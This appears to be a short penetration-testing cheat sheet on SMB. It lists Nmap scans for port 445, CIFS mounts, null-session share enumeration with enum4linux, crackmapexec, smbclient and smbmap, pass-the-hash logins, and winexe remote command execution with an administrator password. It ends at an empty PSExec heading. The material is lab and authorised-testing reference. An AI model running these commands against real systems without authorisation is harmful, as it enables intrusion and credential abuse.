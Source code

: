 ## Nmap discovery

Nmap can be used to identify hosts running SMB service

```sh
nmap -p 445 10.10.5.0/24
nmap -p 445 --script=smb-protocols 10.10.5.0/24
````

Mount a shared folder

```sh
mount -t cifs //x.x.x.x/share /mnt/share
mount -t cifs -o "username=user,password=password" //x.x.x.x/share /mnt/share
````



#### The following methods attempt to initiate a null session, require no username or password

```sh
enum4linux 10.10.5.15


crackmapexec smb <IP> -u '' -p '' --shares


# list the shares
smbclient -L \\\\10.10.15.5
smbcleint -N -L \\\\10.10.15.5

# browse the shares
smbclient \\\\10.10.15.5\\share_name
smbclient -N \\\\10.10.15.15\\share_name


smbmap -H <IP> [-P <PORT>]
```






#### The following methods require a username and password


## winexe
This method will get command execution
```sh
winexe -U administrator%alice_123321 //10.4.16.28 'whoami'
````



These methods will enumerate shares

```sh

#If you omit the pwd, it will be prompted. With --pw-nt-hash, the pwd provided is the NT hash
smbclient -U 'username[%passwd]' -L [--pw-nt-hash] //<IP> 

#Guest user
crackmapexec smb <IP> -u 'username' -p 'password' --shares 
crackmapexec smb <IP> -u 'username' -H '<HASH>' --shares 

smbmap -u "username" -p "password" -H <IP> [-P <PORT>] #Creds
smbmap -u "username" -p "<NT>:<LM>" -H <IP> [-P <PORT>] #Pass-the-Hash
#List with smbmap, without folder it list everything
smbmap [-u "username" -p "password"] -R [Folder] -H <IP> [-P <PORT>] # Recursive list
smbmap [-u "username" -p "password"] -r [Folder] -H <IP> [-P <PORT>] # Non-Recursive list
smbmap -u "username" -p "<NT>:<LM>" [-r/-R] [Folder] -H <IP> [-P <PORT>] #Pass-the-Hash
````


## PSExec


